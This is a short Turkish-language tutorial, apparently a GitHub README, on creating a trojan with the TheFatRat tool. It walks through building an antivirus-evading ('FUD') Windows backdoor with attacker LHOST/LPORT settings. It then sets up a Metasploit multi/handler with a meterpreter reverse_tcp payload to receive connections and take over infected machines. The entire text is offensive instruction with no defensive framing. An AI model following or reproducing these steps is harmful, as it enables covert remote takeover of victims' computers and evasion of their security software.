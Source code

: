 # Fatrat Kullanarak Trojan Oluşturma

#### 1.```fatrat``` ile framework'ü açıyoruz
#### 2. Yapmak istediğimiz işleme göre seçim yapıyoruz trojan oluşturmak için ```[02] Create Fud Backdoor with Fudwin 1.0``` seçiyoruz
#### 3. Trojanı yapıcağımız tool'u seçiyoruz ```[1] Hızlı [2] Yavaş fakat diğerine göre daha güçlü```
#### 4.```LHOST, LPORT``` giriyoruz
#### 5. Trojan adını seçiyoruz
#### 6. ```32bit/64bit``` seçiyoruz
#### 7. Trojan'ı oluşturuyoruz ve dinliyoruz

# Dinlemek için

#### 1.```msfconsole``` 
#### 2.```use exploit/multi/handler``` diyerek payload tanımlıyoruz
#### 3.```set patload windows/meterpreter/reverse_tcp```  (trojanın oluşturulma tipine göre değişiklik gösterebilir) 
#### 4.```LHOST ve LPORT```'u değiştiriyoruz
#### 5.```exploit -j -z``` ile dinlemeye başlıyoruz 
#### 6. Trojan çalıştığında ```sessions -l``` ve ```session 1``` ile backdoor'dan giriş yapıyoruz



